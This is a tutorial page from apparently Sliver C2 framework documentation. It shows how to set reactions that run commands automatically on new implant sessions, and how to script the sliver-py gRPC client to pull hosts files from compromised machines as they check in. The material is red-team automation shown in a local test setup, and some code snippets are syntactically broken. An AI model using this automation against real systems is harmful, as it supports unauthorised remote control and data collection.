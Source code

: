 # This course is intented for the 1.6 version of Sliver, which is not yet published

Reactions are a basic way to automate tasks in the sliver console, they allow you to specify sliver commands to run on a list of events.

```bash
Reactable Events:
   session-connected  Triggered when a new session is opened to a target
     session-updated  Triggered on changes to session metadata
session-disconnected  Triggered when a session is closed (for any reason)
              canary  Triggered when a canary is burned or created
          watchtower  Triggered when implants are discovered on threat intel platforms
          loot-added  Triggered when a new piece of loot is added to the server
        loot-removed  Triggered when a piece of loot is removed from the server
```

Let’s go ahead and create a reaction to list the current directory and environment variables when a new session checks in.

```bash
reaction set -e "session-connected"

[*] Setting reaction to: Session Opened

? Enter commands:  [Enter 2 empty lines to finish]pwd
env
? Enter commands:
pwd
env

[*] Set reaction to session-connected (id: 1)
```

The reaction is now set, if you spin up a new session these commands will be automatically run on that session’s initial connection.

```bash
[*] Session 99c7a639 UNEXPECTED_PORTER - 127.0.0.1:59966 (test.local) - darwin/amd64 - Thu, 04 May 2023 09:04:58 CEST

[*] Execute reaction: 'pwd'

[*] /Users/tester

[*] Execute reaction: 'env'

PWD=/Users/tester
COLORTERM=truecolor
...
```

You can remove reactions using `reaction unset`.

However, there are a couple of limitations to keep in mind when using reactions, first off these are run in the console you are currently using, which is not necessarily the server console. So if you are connected to a sliver server using the sliver client, if you disconnect the client the reactions are no longer running. 

Secondly reactions are a relatively basic mechanism, you can’t use any conditional statements or more complex background tasks with them. For more complex use-cases you can instead write your own client in Python or Typescript for example to connect to the server over gRPC, which we’ll cover next.

## Sliver-py

For the purposes of this tutorial we’ll write our extensions using Python3, however the same result is achievable using Typescript, Golang or any other language that can handle gRPC.

First, install the sliver-py extension using pip.

```bash
pip3 install sliver-py
```

Since our extension is essentially going to be another client connection to the sliver server, you’ll also need to enable multiplayer mode and generate a new profile

```bash
[server] sliver > multiplayer

[*] Multiplayer mode enabled!

[server] sliver > new-operator -n tester -l 127.0.0.1

[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /Users/tester/tools/tester_127.0.0.1.cfg
```

We now have everything we need to start writing our scripts, let’s run our first example interactively in a Python shell. 
We first need to import a few dependencies, `SliverClientConfig` which is used to parse the client config we’ve just created and `SliverClient` which will handle the connection to the backend server.

```bash
Python 3.9.16 (main, Dec  7 2022, 10:06:04)
Type 'copyright', 'credits' or 'license' for more information
IPython 8.0.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: from sliver import SliverClientConfig, SliverClient

In [2]: DEFAULT_CONFIG = "/Users/tester/tools/tester_127.0.0.1.cfg"

In [3]: config = SliverClientConfig.parse_config_file(DEFAULT_CONFIG)

In [4]: client = SliverClient(config)

In [5]: await client.connect()
Out[5]:
Major: 1
Minor: 5
Patch: 37
Commit: "0a43dc688ffb31a0a38511c47e8547a44a6918d4"
CompiledAt: 1681408237
OS: "darwin"
Arch: "arm64"
```

From this point on we can use the client object to interact with the server, let’s start with listing any sessions or beacons that might be currently connected.

```bash
In [6]: beacons = await client.beacons()

In [7]: sessions = await client.sessions()

In [8]: beacons
Out[8]: []

In [9]: sessions
Out[9]:
[ID: "f80ec897-0870-4f03-a1b1-364e5a0d243c"
 Name: "UNEXPECTED_PORTER"
 Hostname: "test.local"
 UUID: "c6de1a44-016a-5fbe-b76a-da56af41316d"
 Username: "tester"
 UID: "501"
 GID: "20"
 OS: "darwin"
 Arch: "amd64"
 Transport: "http(s)"
 RemoteAddress: "127.0.0.1:60218"
 PID: 74773
 Filename: "/Users/tester/tools/UNEXPECTED_PORTER"
 LastCheckin: 1683185925
 ActiveC2: "http://127.0.0.1"
 ReconnectInterval: 60000000000
 PeerID: 4416183373589698218
 FirstContact: 1683185429]
```

To run commands on this session you’ll need to create an InteractiveSession object.

```bash
In [10]: interract = await client.interact_session("f80ec897-0870-4f03-a1b1-364e5a0d243c")

In [11]: await interract.pwd()
Out[11]: Path: "/Users/tester"
```

Now that we’ve got the basics of connecting to sliver and running commands down let’s write a more useful script that will display the hosts file when a new session checks in. Our goal is to first identify the Operating System, and then based on that retrieve and display the contents of the hosts file if it exists. Because this script will wait and react to events emitted by the Sliver server, we’re going to use `asyncio` to write our client.

```bash
#!/usr/bin/env python3

import os
import asyncio
from sliver import SliverClientConfig, SliverClient
import gzip

DEFAULT_CONFIG = "/Users/tester/tools/neo_127.0.0.1.cfg"

async def main():
    ''' Client connect example '''
    config = SliverClientConfig.parse_config_file(DEFAULT_CONFIG)
    client = SliverClient(config)
    await client.connect()

		async for event in client.on('session-connected'):
        print('Session %s just connected !' % event.Session.ID)

if __name__ == '__main__':
    loop = asyncio.get_event_loop()
    loop.run_until_complete(main())
```

As shown above we can access the session object through `event.Session`. Let’s go ahead and add a few conditions based on the operating system.

```bash
if event.Session.OS == "darwin":
            print('Session is running on macOS')

elif event.Session.OS == "Linux":
            print('Session is running on Linux')
elif event.Session.OS == "Windows"
            print('Session is running on Windows')
else:
            print('Session is running on %s', event.Session.OS)
```

Let’s setup an InteractiveSession object like previously.

```bash
interact = await client.interact_session(event.Session.ID)
```

We’re going to start with writing the code for Linux and Macos, since in their case the file is located in the same place. First we check if the file exists, then we download and decompress it to display its contents using gzip.

```bash
file_listing = await interact.ls("/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

The code for Windows is relatively similar the only major difference being the file location.

```bash
file_listing = await interact.ls("C:/Windows/System32/drivers/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("C:/Windows/System32/drivers/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

If we run our script and spin up a few sessions we should start to see hosts files being retrieved.

```bash
python3.11 autocat.py
Automatically interacting with session 16338c85-b670-44ab-ac83-2df885654b07
b"# Copyright (c) 1993-2009 Microsoft Corp.\r\n#\r\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\r\n#\r\n# ...

Automatically interacting with session 93fcbab2-f00d-44a4-944a-e1ea8ec324e2
b'##\n# Host Database\n#\n# localhost is used to configure the loopback interface\n# when the system is booting.  Do not change this entry.\n##\n127.0.0.1...
```
